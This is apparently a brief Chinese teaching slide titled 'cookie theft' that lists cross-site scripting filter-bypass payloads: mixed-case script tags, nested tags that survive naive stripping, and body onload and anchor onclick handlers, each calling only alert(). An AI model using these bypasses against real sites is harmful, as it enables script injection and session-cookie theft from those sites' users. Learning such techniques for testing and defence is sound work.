

# Cookies 窃取
大小写绕过
<Script>alert('xxx')</script>
组合过滤条件绕过
<scr<script>ipt>alert('sss')</script>
尝试使用别的标签来绕过
<body onload=alert('s')>
<a href='' onclick=alert('ss')>click</a>
<a href='' onclick=alert(/ss/)>click</a>
#<script>alert('xx')</script>